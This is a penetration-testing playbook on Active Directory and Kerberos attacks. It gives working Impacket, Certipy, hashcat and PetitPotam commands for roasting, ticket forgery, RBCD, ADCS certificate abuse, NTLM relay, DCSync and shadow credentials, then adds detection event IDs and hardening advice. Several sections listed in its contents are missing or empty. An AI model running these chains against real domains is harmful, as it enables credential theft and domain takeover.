


<!--
Title: Active Directory & Enterprise Kerberos Attacks Playbook
Volume: Volume 07 — Network Penetration Testing
Category: Master Playbook
Prerequisites:
  - ../Volume_02_Linux_Networking_and_Security_Foundations/Module_08_Networking_Protocols_and_Security.md
  - ./Module_26_Penetration_Testing_Fundamentals.md
  - ./Module_32_Network_Penetration_Testing_Execution.md
Last Updated: 2026-09-06
-->

# Active Directory & Enterprise Kerberos Attacks — Master Playbook

> **Volume 07 · Network Penetration Testing**  
> Complete operational methodology for assessing Microsoft Active Directory Domain Services (AD DS), Kerberos protocol implementations, Active Directory Certificate Services (ADCS), and hybrid identity boundaries.

---

## Table of Contents

1. [Active Directory Architecture & Trust Boundaries](#1-active-directory-architecture--trust-boundaries)
2. [Kerberos Protocol Authentication Dance](#2-kerberos-protocol-authentication-dance)
3. [Domain Enumeration & BloodHound Graph Analysis](#3-domain-enumeration--bloodhound-graph-analysis)
4. [Kerberos Attack Surface & Exploitation Vectors](#4-kerberos-attack-surface--exploitation-vectors)
   - [4.1 AS-REP Roasting (Pre-Authentication Disabled)](#41-as-rep-roasting-pre-authentication-disabled)
   - [4.2 Kerberoasting (Service Principal Names)](#42-kerberoasting-service-principal-names)
   - [4.3 Kerberos Delegation Attacks (Unconstrained, Constrained, RBCD)](#43-kerberos-delegation-attacks-unconstrained-constrained-rbcd)
   - [4.4 Ticket Forgery: Golden, Silver, Diamond & Sapphire Tickets](#44-ticket-forgery-golden-silver-diamond--sapphire-tickets)
5. [Active Directory Certificate Services (ADCS) Exploitation](#5-active-directory-certificate-services-adcs-exploitation)
   - [5.1 ESC1: Enrollee Supplies Subject & Client Authentication](#51-esc1-enrollee-supplies-subject--client-authentication)
   - [5.2 ESC4: Vulnerable Certificate Template Access Rights](#52-esc4-vulnerable-certificate-template-access-rights)
   - [5.3 ESC8: NTLM Relay to ADCS HTTP Enrollment Endpoints](#53-esc8-ntlm-relay-to-adcs-http-enrollment-endpoints)
6. [Authentication Coercion & NTLM Relay Chains](#6-authentication-coercion--ntlm-relay-chains)
7. [Domain Persistence Mechanisms](#7-domain-persistence-mechanisms)
   - [7.1 DCSync: Directory Replication Service Abuse](#71-dcsync-directory-replication-service-abuse)
   - [7.2 Shadow Credentials (msDS-KeyCredentialLink)](#72-shadow-credentials-msds-keycredentiallink)
   - [7.3 AdminSDHolder & SDProp Modification](#73-adminsdholder--sdprop-modification)
8. [Telemetry, Event ID Auditing & SIEM Detection](#8-telemetry-event-id-auditing--siem-detection)
9. [Enterprise Hardening & Defense-in-Depth](#9-enterprise-hardening--defense-in-depth)
10. [Authoritative References](#10-authoritative-references)

---

## 1. Active Directory Architecture & Trust Boundaries

Active Directory Domain Services (AD DS) organizes network resources into a hierarchical, logical structure backed by the Extensible Storage Engine (ESE / NTDS.dit) database:

* **Forest**: The ultimate security boundary in Active Directory. A forest encompasses one or more domain trees that share a single common schema, configuration partition, and global catalog.
* **Domain**: An administrative partition containing user accounts, computer objects, security groups, and Group Policy Objects (GPOs). Prior to Windows Server 2008, domains were erroneously considered security boundaries; Microsoft now explicitly classifies the **Forest** as the true security boundary.
* **Organizational Unit (OU)**: A container used to logically arrange objects within a domain to delegate administrative control and link GPOs.
* **Domain Controller (DC)**: The host executing `lsass.exe`, hosting the NTDS.dit database, running the KDC (Key Distribution Center) on port 88, LDAP/LDAPS on ports 389/636, Global Catalog on 3268/3269, and RPC endpoint mapper on port 135.



### Trust Topologies & Boundary Traversal

Trusts define communication paths between domains:
1. **Parent-Child & Tree-Root Trusts**: Two-way, transitive trusts established automatically within a forest. Kerberos Ticket Granting Tickets (TGTs) can traverse these trusts via inter-realm keys, making forest-internal domain separation non-security-enforced.
2. **External Trusts**: Non-transitive trusts connecting a domain in one forest to a domain in another forest.
3. **Forest Trusts**: Transitive or non-transitive trusts linking two distinct forest roots. Security boundaries depend on whether **SID Filtering** (`/quarantine:yes`) is strictly enabled to prevent SID history injection attacks.

---

## 2. Kerberos Protocol Authentication Dance

Kerberos v5 (RFC 4120) is Active Directory's default authentication mechanism, operating entirely over symmetric cryptographic primitives and pre-shared secrets.

```
Client                     Domain Controller (KDC)                 Target Service
  |                                   |                                   |
  |--- 1. AS-REQ (Timestamp Enc) ---->|                                   |
  |<-- 2. AS-REP (TGT + SessionKey) --|                                   |
  |                                   |                                   |
  |--- 3. TGS-REQ (TGT + Auth + SPN)->|                                   |
  |<-- 4. TGS-REP (TGS Ticket) -------|                                   |
  |                                   |                                   |
  |--- 5. AP-REQ (TGS + Authenticator)----------------------------------->|
  |<-- 6. AP-REP (Mutual Auth Verification - Optional) -------------------|
```

### Detailed Packet Mechanics

1. **AS-REQ (Authentication Service Request)**:
   * Client constructs an authenticator containing the current timestamp encrypted with the user's password hash (`NTLM` or `AES-256-CTS-HMAC-SHA1-96`).
   * Transmitted to KDC UDP/TCP port 88.
2. **AS-REP (Authentication Service Response)**:
   * KDC decrypts the timestamp using the user's secret stored in `NTDS.dit`. If within clock skew tolerance (default 5 minutes), pre-authentication succeeds.
   * KDC issues the **Ticket Granting Ticket (TGT)** encrypted with the forest's master secret (`krbtgt` account hash).
   * KDC returns the TGT and a Logon Session Key encrypted with the user's key.
3. **TGS-REQ (Ticket Granting Service Request)**:
   * Client presents the TGT, an authenticator encrypted with the Logon Session Key, and specifies the target **Service Principal Name (SPN)** (e.g., `MSSQLSvc/db01.corp.local:1433`).
4. **TGS-REP (Ticket Granting Service Response)**:
   * KDC decrypts the TGT using the `krbtgt` key, validates the client's Privilege Attribute Certificate (PAC), and constructs a service ticket (TGS).
   * The TGS is encrypted with the target service account's secret key (`NTLM` or `AES`).
5. **AP-REQ (Application Request)**:
   * Client presents the TGS ticket to the target service daemon. The service decrypts it using its own secret key to unpack the user's identity and group memberships from the PAC.

---

## 3. Domain Enumeration & BloodHound Graph Analysis

Active Directory allows any authenticated domain user (even low-privilege service accounts) to read LDAP directory partitions by default.

### 3.1 LDAP Service Enumeration with ldapdomaindump

```bash
# Extract complete domain objects into structured HTML/JSON/Greppable tables
ldapdomaindump -u "corp.local\standarduser" -p "Password123!" -o /tmp/ad_enum ldap://192.168.1.10
```

Key output artifacts:
* `domain_users.html`: Accounts with `DONT_REQ_PREAUTH` (AS-REP Roastable) and configured `servicePrincipalName` attributes (Kerberoastable).
* `domain_computers.html`: Operating system versions, unconstrained delegation flags (`TRUSTED_FOR_DELEGATION`).
* `domain_trusts.html`: Inbound/outbound forest and external trust directions and transitive status.

### 3.2 BloodHound Data Collection & Ingestion

BloodHound models Active Directory as an interconnected directed graph where nodes represent objects (Users, Computers, Groups, Domains, OUs, GPOs) and edges represent permissions (`GenericAll`, `WriteDacl`, `MemberOf`, `AllowedToDelegate`).

```bash
# Python collector execution from an external Linux assessment workstation
bloodhound-python -u "standarduser" -p "Password123!" -d "corp.local"   -dc "dc01.corp.local" -ns 192.168.1.10 -c All,LoggedOn,Session
```

### Essential Cypher Queries for Triage

```cypher
// 1. Find all paths from Owned / Low-Priv Accounts to Domain Admins
MATCH p=shortestPath((u:User {name: "STANDARDUSER@CORP.LOCAL"})-[*1..10]->(g:Group {name: "DOMAIN ADMINS@CORP.LOCAL"}))
RETURN p;

// 2. Identify Accounts with Non-Default GenericAll or WriteDacl over High-Value Targets
MATCH (u:User)-[r:GenericAll|WriteDacl|WriteOwner]->(t)
WHERE t.highvalue = true
RETURN u.name, type(r), t.name;

// 3. Find Unconstrained Delegation Computers excluding Domain Controllers
MATCH (c:Computer {unconstraineddelegation: true})
WHERE NOT c.name ENDS WITH "DC01.CORP.LOCAL"
RETURN c.name, c.operatingsystem;

// 4. Find Kerberoastable Users with AdminCount = 1
MATCH (u:User {hasspn: true, admincount: true})
RETURN u.name, u.serviceprincipalnames;
```

---

## 4. Kerberos Attack Surface & Exploitation Vectors

### 4.1 AS-REP Roasting (Pre-Authentication Disabled)

#### Root Cause
Accounts configured with the User Account Control (UAC) flag `DONT_REQ_PREAUTH` (`0x00400000`) do not require proof of password knowledge when submitting an `AS-REQ`. The KDC immediately returns an `AS-REP` containing a ticket portion encrypted with the user's secret key.

#### Verification Methodology
```bash
# Query LDAP and request AS-REP for vulnerable accounts using Impacket
GetNPUsers.py "corp.local/" -usersfile /tmp/usernames.txt -dc-ip 192.168.1.10 -request -format hashcat -outputfile asrep_hashes.txt

# Or with valid domain credentials to enumerate all domain objects:
GetNPUsers.py "corp.local/standarduser:Password123!" -dc-ip 192.168.1.10 -request -format hashcat -outputfile asrep_hashes.txt
```

#### Offline Verification
```bash
# Hashcat Mode 18200 (Kerberos 5 AS-REP etype 23)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

---

### 4.2 Kerberoasting (Service Principal Names)

#### Root Cause
Any valid domain user can request a TGS ticket for any account that has a registered `servicePrincipalName` (SPN). Because the TGS is encrypted with the NTLM or AES key of the service account, the ciphertext can be exported and cracked offline without communicating further with the target service.

#### Verification Methodology
```bash
# Enumerate and extract TGS tickets for all user accounts possessing SPNs
GetUserSPNs.py "corp.local/standarduser:Password123!" -dc-ip 192.168.1.10 -request -outputfile kerberoast_tgs.txt

# Target specific user and prefer AES encryption if testing crypto agility
GetUserSPNs.py "corp.local/standarduser:Password123!" -dc-ip 192.168.1.10 -request-user "svc_mssql" -outputfile svc_mssql_tgs.txt
```

#### Offline Verification
```bash
# Hashcat Mode 13100 (Kerberos 5 TGS-REP etype 23)
hashcat -m 13100 kerberoast_tgs.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule

# Hashcat Mode 19600 (Kerberos 5 TGS-REP etype 17/18 - AES128/AES256)
hashcat -m 19600 kerberoast_tgs.txt /usr/share/wordlists/rockyou.txt
```

---

### 4.3 Kerberos Delegation Attacks (Unconstrained, Constrained, RBCD)

Kerberos delegation allows an intermediary tier (e.g., an IIS web application) to impersonate a client to access back-end resources (e.g., an MS SQL database) using the client's identity.

| Delegation Model | Active Directory Attribute | Risk Mechanism |
|---|---|---|
| **Unconstrained** | `userAccountControl: TRUSTED_FOR_DELEGATION` | KDC places a copy of client's TGT inside TGS; host extracts TGT and can impersonate client anywhere in the forest |
| **Constrained (Classic)** | `msDS-AllowedToDelegateTo` | Service can impersonate user to listed SPNs; with Protocol Transition (`TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`), low-priv token can forge ticket to service |
| **Resource-Based (RBCD)** | `msDS-AllowedToActOnBehalfOfOtherIdentity` | Target resource controls who can delegate to it; attacker possessing `GenericWrite` over computer can set RBCD to owned computer |

#### Resource-Based Constrained Delegation (RBCD) Execution Chain

1. **Step 1: Create a Machine Account** (or compromise an existing object):
   ```bash
   # Add machine account using MachineAccountQuota (default: 10 per standard user)
   addcomputer.py -computer-name "ROUGEPC$" -computer-pass "ComputerPass123!" -dc-ip 192.168.1.10 "corp.local/standarduser:Password123!"
   ```

2. **Step 2: Write Security Descriptor to Target Computer's RBCD Attribute**:
   ```bash
   # Requires GenericWrite, GenericAll, or WriteProperty over target COMPUTER01$
   rbcd.py -delegate-to "COMPUTER01$" -delegate-from "ROUGEPC$" -action write      -dc-ip 192.168.1.10 "corp.local/standarduser:Password123!"
   ```

3. **Step 3: Request Service Ticket via S4U2self and S4U2proxy**:
   ```bash
   # Impersonate Domain Administrator to target host
   getST.py -spn "cifs/COMPUTER01.corp.local" -impersonate "Administrator"      -dc-ip 192.168.1.10 "corp.local/ROUGEPC$:ComputerPass123!"
     
   # Export acquired ticket to environment
   export KRB5CCNAME=Administrator.ccache
   
   # Access target service via Kerberos authentication
   wmiexec.py -k -no-pass "corp.local/Administrator@COMPUTER01.corp.local"
   ```

---

### 4.4 Ticket Forgery: Golden, Silver, Diamond & Sapphire Tickets

#### Golden Ticket (TGT Forgery)
* **Pre-requisite**: NTLM or AES-256 hash of the domain `krbtgt` account (obtained via DCSync or NTDS extraction).
* **Scope**: Complete forest-wide administrative control, bypassing all authentication mechanisms.

```bash
# Forge custom TGT valid for 10 years with Domain Admin (512) and Enterprise Admin (519) SIDs
ticketer.py -domain-sid "S-1-5-21-1234567890-1234567890-1234567890"   -domain "corp.local" -nthash "b646c****REDACTED"   -groups 512,513,518,519,520   "Administrator"
  
export KRB5CCNAME=Administrator.ccache
```

#### Silver Ticket (TGS Forgery)
* **Pre-requisite**: NTLM or AES key of the specific target machine or service account.
* **Characteristics**: Never contacts the Domain Controller / KDC (stealthy against central DC telemetry). Valid only against the targeted service (e.g., `CIFS`, `HOST`, `HTTP`, `MSSQL`).

```bash
ticketer.py -domain-sid "S-1-5-21-1234567890-1234567890-1234567890"   -domain "corp.local" -spn "cifs/FILESERVER.corp.local"   -nthash "3a88b****REDACTED"   "Administrator"
```

---

## 5. Active Directory Certificate Services (ADCS) Exploitation

Active Directory Certificate Services (ADCS) is Microsoft's Public Key Infrastructure (PKI) implementation. Misconfigured Certificate Templates allow immediate, non-interactive privilege escalation across domains.

### 5.1 ESC1: Enrollee Supplies Subject & Client Authentication

#### Vulnerability Condition
A Certificate Template meets all four conditions:
1. Grants enrollment rights to low-privilege security principals (`Authenticated Users` or `Domain Users`).
2. Manager approval (`PENDING`) is disabled.
3. Extended Key Usage (EKU) contains **Client Authentication** or **Smart Card Logon** (or `Any Purpose`).
4. Template flag `ENROLLEE_SUPPLIES_SUBJECT` (`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`) is active.

#### Verification & Proof-of-Concept
```bash
# 1. Audit templates with Certipy
certipy-ad find -u "standarduser@corp.local" -p "Password123!" -dc-ip 192.168.1.10 -vulnerable -stdout

# 2. Request certificate impersonating Domain Administrator
certipy-ad req -u "standarduser@corp.local" -p "Password123!" -dc-ip 192.168.1.10   -ca "CORP-CA01-CA" -template "VulnTemplateESC1" -upn "Administrator@corp.local" -out admin.pfx

# 3. Authenticate via PKINIT to extract NT hash and TGT
certipy-ad auth -pfx admin.pfx -dc-ip 192.168.1.10
```

---

### 5.2 ESC4: Vulnerable Certificate Template Access Rights

#### Vulnerability Condition
An attacker has `GenericAll`, `WriteOwner`, or `WriteDacl` permissions over a certificate template object in Active Directory.

#### Remediation-First Verification
```bash
# Temporarily overwrite template attributes to enable ESC1 flags, enroll, then revert configuration
certipy-ad template -u "standarduser@corp.local" -p "Password123!" -dc-ip 192.168.1.10   -template "ModifiableTemplate" -save-old
```

---

### 5.3 ESC8: NTLM Relay to ADCS HTTP Enrollment Endpoints

#### Vulnerability Condition
ADCS HTTP enrollment endpoints (`/certsrv/` or `/certsrv/mscep/`) do not require HTTPS or fail to enforce Extended Protection for Authentication (EPA / Channel Binding Tokens). An attacker coerces an inbound machine account authentication (e.g., Domain Controller) and relays it to ADCS to obtain a machine certificate.



---

## 6. Authentication Coercion & NTLM Relay Chains

### Coercion Protocols

Coercion forces a remote Windows host to initiate an authenticated connection back to an assessment listener:

1. **MS-EFSR (PetitPotam)**: Exploits the Encrypting File System Remote Protocol. Unpatched endpoints respond to unauthenticated or low-privilege `EfsRpcOpenFileRaw` calls.
2. **MS-RPRN (SpoolSample)**: Exploits the Print Spooler service (`spoolsv.exe`). If running on Domain Controllers, `RpcRemoteFindFirstPrinterChangeNotificationEx` forces NTLM authentication.
3. **MS-DFSNM (DFSCoerce)**: Exploits Distributed File System Namespace Management.

```bash
# Monitor inbound relay with impacket-ntlmrelayx targeting ADCS HTTP endpoint
ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# Trigger authentication coercion using PetitPotam against target DC
petitpotam.py -u "standarduser" -p "Password123!" -d "corp.local" 192.168.1.50 192.168.1.10
```

---

## 7. Domain Persistence Mechanisms

### 7.1 DCSync: Directory Replication Service Abuse

#### Mechanism
Any account holding `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` extended rights over the domain partition can simulate a Domain Controller replication request using the MS-DRSR protocol.

```bash
# Extract KRBTGT and Administrator password hashes using secretsdump
secretsdump.py "corp.local/DomainAdmin:Password123!"@192.168.1.10 -just-dc-user "krbtgt"
```

### 7.2 Shadow Credentials (msDS-KeyCredentialLink)

#### Mechanism
If an attacker has `GenericWrite` or `WriteProperty` over a target user or computer object, they can append an asymmetric public key into the target's `msDS-KeyCredentialLink` attribute. The attacker then authenticates as the target via PKINIT using the corresponding private key without modifying the target's existing password or password history.

```bash
# Inject shadow credential using pywhisker
pywhisker.py -d "corp.local" -u "standarduser" -p "Password123!"   --target "TARGETHOST$" --action "add" --filename /tmp/target_cred

# Authenticate via PKINIT to request TGT and NT hash
gettgtpkinit.py -cert-pfx /tmp/target_cred.pfx -pfx-pass "Password" "corp.local/TARGETHOST$" target.ccache
```

---

## 8. Telemetry, Event ID Auditing & SIEM Detection

### Core Windows Security Event Log Signatures

| Event ID | Log Provider | Description | Security Diagnostic Indicator |
|---|---|---|---|
| **4768** | Microsoft-Windows-Security-Auditing | A Kerberos authentication ticket (TGT) was requested | Pre-auth Type `0` (None) indicates AS-REP roasting probe |
| **4769** | Microsoft-Windows-Security-Auditing | A Kerberos service ticket was requested | Encryption Type `0x17` (`RC4-HMAC`) for user SPN indicates Kerberoasting; high request volume signals mass roasting |
| **4771** | Microsoft-Windows-Security-Auditing | Kerberos pre-authentication failed | Failure code `0x18` (Bad password) or `0x25` (Clock skew) |
| **4624** | Microsoft-Windows-Security-Auditing | An account was successfully logged on | Logon Type `3` (Network) with NTLM authentication package |
| **4672** | Microsoft-Windows-Security-Auditing | Special privileges assigned to new logon | `SeImpersonatePrivilege`, `SeDebugPrivilege` assignment |
| **5136** | Microsoft-Windows-Security-Auditing | A directory service object was modified | Attribute `msDS-KeyCredentialLink` or `msDS-AllowedToActOnBehalfOfOtherIdentity` modified |
| **4886** | Microsoft-Windows-Security-Auditing | Certificate Services received a certificate request | Template name and requester UPN differential inspection (ESC1 audit) |

---

## 9. Enterprise Hardening & Defense-in-Depth

### Tiered Administration Architecture (Tier 0 / Tier 1 / Tier 2)
1. **Tier 0 (Control Plane)**: Domain Controllers, ADCS servers, Azure AD Connect, PKI infrastructure, Domain Admins. Tier 0 accounts **never** log on to Tier 1 or Tier 2 workstations.
2. **Tier 1 (Server Plane)**: Enterprise member servers, database instances, storage arrays, web services.
3. **Tier 2 (Workstation Plane)**: End-user workstations, printers, standard end-user credentials.

### Technical Hardening Directives

1. **Disable Kerberos RC4-HMAC**:
   * Enforce `AES128_HMAC_SHA1` and `AES256_HMAC_SHA1` via Group Policy:
     `Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options -> Network security: Configure encryption types allowed for Kerberos`.
2. **Protected Users Security Group**:
   * Place all administrative accounts in the `Protected Users` group.
   * Enforces: No NTLM authentication, no DES/RC4 Kerberos encryption, no delegation, lifetime of TGT restricted to 4 hours.
3. **ADCS Hardening**:
   * Audit all Certificate Templates: remove `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` from templates issuing Client Authentication.
   * Disable NTLM on ADCS HTTP enrollment endpoints; enforce HTTPS and Extended Protection for Authentication (EPA / Channel Binding Tokens).
4. **Machine Account Quota**:
   * Set `ms-DS-MachineAccountQuota` to `0` to prevent low-privilege users from registering rogue computer accounts used in RBCD attacks.

---

## 10. Authoritative References

* **RFC 4120**: The Kerberos Network Authentication Service (V5) — IETF Standards Track
* **Microsoft Technical Documentation**: Active Directory Domain Services Architecture & Technical Reference
* **SpecterOps Research**: *Certified Pre-Owned: Abusing Active Directory Certificate Services* (Will Schroeder & Lee Christensen)
* **MITRE ATT&CK Framework**:
  * T1558: Steal or Forge Kerberos Tickets (Sub-techniques: .001 Golden Ticket, .002 Silver Ticket, .003 Kerberoasting, .004 AS-REP Roasting)
  * T1649: Steal or Forge Authentication Certificates
  * T1003.006: OS Credential Dumping: DCSync
